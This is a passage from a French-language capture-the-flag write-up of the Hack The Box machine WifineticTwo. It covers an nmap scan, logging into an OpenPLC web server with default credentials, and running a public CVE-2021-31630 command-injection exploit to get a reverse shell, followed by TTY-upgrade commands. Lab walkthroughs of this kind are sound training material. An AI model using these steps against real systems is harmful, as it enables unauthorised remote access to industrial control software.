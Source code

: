 ```shell
SF:hu,\x2025-Apr-2024\x2021:44:45\x20GMT;\x20HttpOnly;\x20Path=/\r\nserver
SF::\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Thu,\x2025\x20Apr\
SF:x202024\x2021:39:45\x20GMT\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W
SF:3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</ti
SF:tle>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x
SF:20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\
SF:x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20aga
SF:in\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.39 seconds
```

Notre scan révèle deux ports ouverts: 22 (SSH) et 8080 (http-proxy).

## Enumération

Nous trouvons une page de connexion à `http://10.10.11.7:8080` pour OpenPLC Webserver.

![OpenPLC login form](/images/HTB-WifineticTwo/OpenPLC-webserver.png)

Les informations d'identification par défaut nous permettent de nous connecter.

![OpenPLC default credentials](/images/HTB-WifineticTwo/openplc-creds.png)

Nous accédons au tableau de bord. Les différentes sections nous donnent quelques informations mais rien d'intéressant pour l'instant.

![OpenPLC dashboard](/images/HTB-WifineticTwo/openPLC-dashboard.png)

## Accès initial

Nous trouvons le [CVE-2021-31630](https://nvd.nist.gov/vuln/detail/CVE-2021-31630) qui est une vulnérabilité d'injection de commande pour Open PLC Webserver v3 et un exploit est disponible [ici](https://github.com/Hunt3r0x/CVE-2021-31630-HTB).

> Pour que cet exploit fonctionne, vous devez mettre à jour le fichier `/etc/hosts` avec `wifinetictwo.htb`.

Après exécution de l'exploit, nous obtenons un shell sur notre listener.

```
python ./exploit.py -ip <IP_ADDRESS> -p <PORT_NUMBER> -u openplc -pwd openplc
```

![OpenPLC RCE](/images/HTB-WifineticTwo/openplc-rce.png)

![WifineticTwo foothold](/images/HTB-WifineticTwo/foothold.png)

Notre shell peut être amélioré à l'aide des commandes ci-dessous.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```
